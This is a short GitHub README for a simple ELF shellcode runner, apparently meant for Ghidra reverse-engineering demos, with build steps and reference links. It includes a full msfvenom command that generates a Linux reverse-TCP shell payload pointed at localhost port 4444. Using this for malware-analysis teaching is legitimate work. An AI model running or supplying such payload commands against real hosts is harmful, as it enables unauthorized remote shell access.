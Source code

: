 # Simple_ELF_Shellcode_Runner
Just a simple ELF shellcode runner to use for Ghidra demos.


## How to build
0. Generate a payload with ```msfvenom``` or shellcode generator of your choice.
```
msfvenom -p linux/x86/shell/reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f c
```
1. Update the payload and sczsize variables.

2. Build the payload via ```make```

### References
* [Executing Shellcode in C](https://tuttlem.github.io/2017/10/28/executing-shellcode-in-c.html)
* [Creating and Testing x86_64 shellcode on a Linux Machine](https://stackoverflow.com/questions/27900201/create-and-test-x86-64-elf-executable-shellcode-on-a-linux-machine)
* [mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)
